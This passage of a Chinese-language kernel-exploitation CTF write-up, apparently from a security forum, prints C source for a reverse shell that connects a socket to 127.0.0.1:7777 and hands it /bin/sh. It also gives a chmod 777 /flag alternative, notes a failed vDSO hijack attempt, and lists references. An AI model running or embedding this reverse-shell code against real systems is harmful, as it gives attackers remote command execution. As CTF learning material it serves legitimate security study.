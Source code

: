 #### 反弹 Shell

```
#include #include #include #include #include #include #include #include #include int main(int argc,char *argv[])
{
    //system("chmod 777 /flag");
 
 
    int sockfd,numbytes;
    char buf[BUFSIZ];
    struct sockaddr_in their_addr;
    printf("break!");
    while((sockfd = socket(AF_INET,SOCK_STREAM,0)) == -1);
    printf("We get the sockfd~\n");
    their_addr.sin_family = AF_INET;
    their_addr.sin_port = htons(7777);
    their_addr.sin_addr.s_addr=inet_addr("127.0.0.1");
    bzero(&(their_addr.sin_zero), 8);
 
    while(connect(sockfd,(struct sockaddr*)&their_addr,sizeof(struct sockaddr)) == -1);
    dup2(sockfd,0);
    dup2(sockfd,1);
    dup2(sockfd,2);
    system("/bin/sh");
 
    return 0;
 
} 
```

或者直接`system("chmod 777 /flag");`也是获取 flag 的一种方式。

 

▲vdso 的劫持一直没有复现成功过，明明已经劫持 gettimeofday 函数的内容为 shellcode，然后也挂载了循环调用 gettimeofday 的程序，但是就是运行不了 shellcode。

 

参考：

 

[Kernel Pwn 学习之路 - 番外 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/204319#h3-12)

 

https://www.jianshu.com/p/07994f8b2bb0

 

https://blog.csdn.net/seaaseesa/article/details/104695399

[[注意] 欢迎加入看雪团队！base 上海，招聘安全工程师、逆向工程师多个坑位等你投递！](https://bbs.pediy.com/thread-267474.htm)